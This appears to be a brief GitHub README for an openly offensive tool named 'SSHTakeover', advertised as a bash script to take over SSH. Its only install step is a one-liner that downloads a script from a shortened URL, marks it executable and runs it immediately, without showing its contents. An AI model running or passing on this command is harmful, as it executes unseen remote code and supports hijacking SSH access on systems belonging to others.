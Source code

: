 # SSHTakeover
Takeover SSH with this simple bash script.

### Install
wget https://is.gs/sshpwn && chmod +x sshpwn && ./sshpwn
